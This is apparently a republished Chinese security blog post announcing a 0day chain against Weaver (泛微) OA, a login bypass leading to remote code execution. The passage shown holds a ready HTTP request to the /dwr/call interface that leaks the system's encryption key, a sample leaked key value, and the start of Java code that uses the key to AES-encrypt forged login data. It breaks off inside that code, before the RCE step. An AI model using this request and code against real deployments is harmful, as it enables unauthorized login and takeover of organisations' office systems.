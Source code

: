 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg4MTkwMTI5Mw==&mid=2247490104&idx=1&sn=bfc287009021abce228aa120eb7673cc

#  【0day】泛微OA前台登录绕过+后台组合拳RCE  
原创 XingYue404  星悦安全   2025-07-01 11:38  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x01 登录绕过  
### 利用/dwr/call接口读取加密key  
  

```
POST /dwr/call/plaincall/?callCount=1&c0-id=1&c0-scriptName=WorkflowSubwfSetUtil&c0-methodName=LoadTemplateProp&batchId=a&c0-param0=string:mobilemode&scriptSessionId=1&a=.swf HTTP/1.1
Host: xxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1

```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ceGLwibV7eibnrbLN1s9VOtTUMFUFw5wm7jEQPWogeciaf1KLHCTIGRUiaAeyDOQmIhQIrqMQ5JjyZ0A/640?wx_fmt=other&from=appmsg "")  
  
其中security.key为 5f2f28dd-db4a-45  
### 调用aes加密函数  
  

```
import java.security.SecureRandom;
import javax.crypto.Cipher;
import javax.crypto.KeyGenerator;
import javax.crypto.spec.SecretKeySpec;
import javax.xml.bind.DatatypeConverter;

publicclass Main {
    public static String encrypt(String str, String str2) {
        try {
            KeyGenerator keyGenerator = KeyGenerator.getInstance(&#34;AES&#34;);
            SecureRandom secureRandom = SecureRandom.getInstance(&#34;SHA1PRNG&#34;);
            secureRandom.setSeed(str2.getBytes());
            keyGenerator.init(128, secureRandom);
            SecretKeySpec secretKeySpec = new SecretKeySpec(keyGenerator.generateKey().getEncoded(), &#34;AES&#34;);
            Cipher cipher = Cipher.getInstance(&#34;AES&#34;);
            cipher.init(1, secretKeySpec);
            return DatatypeConverter.printHexBinary(cipher.doFinal(str.getBytes()));
        } catch (Exception e) {
            e.printStackTrace();
            return&#34;&#34;;
        }
    }

    public static void main(String[] args) {
```